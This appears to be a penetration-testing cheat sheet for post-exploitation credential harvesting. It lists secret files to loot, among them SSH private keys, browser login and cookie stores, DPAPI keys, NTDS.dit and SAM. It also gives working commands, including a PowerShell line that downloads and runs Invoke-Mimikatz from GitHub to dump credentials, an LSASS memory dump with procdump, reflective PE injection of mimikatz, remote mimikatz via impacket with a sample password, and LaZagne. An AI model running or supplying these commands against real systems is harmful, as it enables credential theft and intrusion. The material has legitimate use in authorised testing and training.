 ### git folder
```
directory name = .git
python3 git_extract.py gitfilename
```
### Private key
```
.ssh/id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
bitvise ssh private key path on windows
```
C:\Users\username\.ssh\id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
### Sensitive files
```
find *.log, passwd, username, credential
C:\Users\username\Documents
C:\Users\username\Downloads
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
.github folder
setupinfo
setupinfo.bak
*.bak, *.db
*.pdf
*.zip
*.7z
*.gz
*.sitx
*.rar
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Google\Chrome\User Data\Local State
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Microsoft\Edge\User Data\Local State
%APPDATA%\Roaming\Microsoft\Protect\<SID> -> DPAPI Keys
%SystemRoot%\NTDS\ntds.dit(Active Directory database)
%SystemRoot%\System32\winevt\Logs\Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational.evtx(Windows event logs)
```
### Linux Web Service
```
Check all the folders and files under var/www/html
```
### tcpdump to capture packets 
```
tcpdump -i any udp -vvv
```
### History
```
Linux:
check all user's .bash_history
/home/user/.bash_history
```
### Password Hash
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
Mimikatz - sekurlsa::logonpasswords  
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit  
lsadump::cache  
sekurlsa::tickets


###### Load mimikatz and run it locally.  
```
$PEBytes = [IO.File]::ReadAllBytes('mimiikatz.exe')  
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "privilege::debug sekurlsa::logonpasswords Arg3 Arg4"
https://github.com/KiritoLoveAsuna/Penetration-Testing/blob/main/Invoke-ReflectivePEInjection.ps1
```
###### Procdump to extract hash by mimikatz
```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmp
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```
###### Run mimikatz remotely
```
python3 /usr/share/doc/python3-impacket/examples/mimikatz.py oscp.exam/Administrator:December31@192.168.112.147
```
###### Mimikatz bypass LSA protection
![image](https://github.com/user-attachments/assets/1b2d30df-849c-4b1d-91b2-ad54d493d50d)

###### Pwdump
>It is recommended to extrast hashes using both mimikatz and pwdump

### Password Retriver
```
laZagne.exe all
```

